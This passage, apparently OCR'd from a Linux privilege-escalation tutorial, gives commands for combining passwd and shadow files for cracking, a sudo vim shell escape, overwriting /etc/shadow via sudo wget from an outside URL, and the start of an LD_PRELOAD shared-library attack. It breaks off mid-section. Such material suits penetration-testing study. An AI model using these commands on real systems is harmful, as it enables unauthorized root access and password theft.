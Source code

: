         unshadow passwd shadow > unshadowed.txt

        Explanation: This combined file can then be used with tools like Hashcat to crack passwords.

Methodology and Tactics:
Weak file permissions are a common vulnerability. Ensuring that sensitive files like /etc/passwd and /etc/shadow are not writable by non-root users is critical to maintaining system security.
9. Sudo - Shell Escape

Certain binaries, when executed with sudo, can be exploited to spawn a shell with elevated privileges.

    Listing Sudo Permissions:
        sudo -l: Lists the binaries the current user can run with sudo. Look for binaries that can be exploited.

        bash

    sudo -l

Exploiting Sudo with Vim:

    sudo vim -c ':!/bin/sh': Opens a shell with root privileges using Vim.

    bash

        sudo vim -c ':!/bin/sh'

        Explanation: Vim can be used to spawn a shell if it is allowed to run with sudo. This is because it retains elevated privileges when executing shell commands.

Methodology and Tactics:
Shell escapes exploit the fact that certain applications do not drop their elevated privileges when running shell commands. Identifying such binaries and using them correctly can provide an easy path to root access.
10. Sudo - Intended Functionality

Sometimes, the intended functionality of a sudo command can be leveraged to escalate privileges.

    Using Wget:
        sudo wget https://example.com/file -O /etc/shadow: Downloads a file from the internet and writes it to /etc/shadow, effectively replacing it.

        bash

        sudo wget https://example.com/file -O /etc/shadow

        Explanation: If a user has sudo access to wget, they can overwrite critical system files, leading to privilege escalation.

Methodology and Tactics:
Understanding the intended functionality of sudo commands is crucial. By leveraging these commands creatively, attackers can manipulate the system to gain higher privileges.
11. Sudo - LD_PRELOAD

The LD_PRELOAD environment variable can be used to inject a shared library into a program's memory space when executed with sudo, allowing for privilege escalation.

    Creating a Shared Library:
        gcc -fPIC -shared -o shell.so shell.c -nostartfiles: Compiles the shared object (.so) file that will be injected.
